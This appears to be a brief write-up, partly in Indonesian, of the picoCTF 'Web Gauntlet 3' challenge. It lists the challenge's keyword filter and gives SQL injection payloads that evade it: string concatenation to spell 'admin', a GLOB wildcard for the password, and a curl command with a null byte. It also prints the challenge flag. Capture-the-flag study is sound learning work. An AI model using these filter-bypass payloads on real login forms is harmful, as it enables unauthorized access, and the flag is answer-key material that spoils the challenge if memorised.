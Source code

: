 <h1>Web Gauntlet 3</h1>
<h3>Description</h3>
<pre>
This website looks familiar... Log in as admin Site: <a href='http://mercury.picoctf.net:63504/'>Chall</a> <a href='http://mercury.picoctf.net:63504/filter.php'>Filter</a>
</pre>
<h3>Solution</h3>

<p>filter.php :Filters: or and true false union like = > < ; -- /* */ admin</p>
<pre>
Injection

user : ad'||'min'
pass : ' GLOB '*
</pre>
<label>GLOB sama dengan LIKE di MySQL</label>

<pre>
curl -X POST -d "user=ad'||'min'%00&pass=123" http://mercury.picoctf.net:63504/ --cookie "PHPSESSID=1gsae0u6qh3uiv1htiiv1bj7mo" --output -
</pre>

dan curl ke filter.php

<pre>
curl -X GET http://mercury.picoctf.net:63504/filter.php --cookie "PHPSESSID=1gsae0u6qh3uiv1htiiv1bj7mo" --output -
</pre>
<h3>Flag</h3>
<pre>
picoCTF{k3ep_1t_sh0rt_eb90a623e2c581bcd3127d9d60a4dead}
</pre>
